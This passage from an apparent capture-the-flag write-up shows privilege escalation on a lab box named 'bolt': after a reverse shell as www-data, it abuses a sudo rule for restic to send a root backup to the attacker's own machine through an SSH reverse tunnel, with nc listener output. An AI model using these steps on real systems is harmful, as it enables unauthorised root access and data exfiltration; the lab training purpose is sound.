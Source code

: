 After URL-encoding and sending the request, the listener on the box and port 9001 starts a reverse shell as _www-data_.

### Privilege Escalation to root

As found out before, the `sudo` permissions of _www-data_ can run one command with [restic](https://github.com/restic/restic) as root:
```
sudo -l
```
```
Matching Defaults entries for www-data on bolt:
    env_reset, exempt_group=sudo, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bolt:
    (root) NOPASSWD: /usr/bin/restic backup -r rest*
```

As the file _/var/www/html/backup.php_ showed, it backups the directory _bolt_ to _backup.registry.htb_:
```
<?php shell_exec("sudo restic backup -r rest:http://backup.registry.htb/bolt bolt");
```

By changing the connection to our local client, it is possible to backup files to our client.
But as TCP connections to outbound are not allowed, this connection will be done through an **SSH tunnel** via the [SSH Control Sequences](https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/):
```
ssh> -R 8000:127.0.0.1:8000
```

This forwards port 8000 from the machine to port 8000 on our local client and the **restic** connection goes through successfully:
```
sudo restic backup -r rest:http://127.0.0.1:8000/bolt bolt
```
```
# Local client

nc -lvnp 8000

Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 127.0.0.1:43232.

HEAD /bolt/config HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Go-http-client/1.1
Accept: application/vnd.x.restic.rest.v2
```

To make use of that connection, a **restic server** on our local client is needed:
```
apt install restic
```
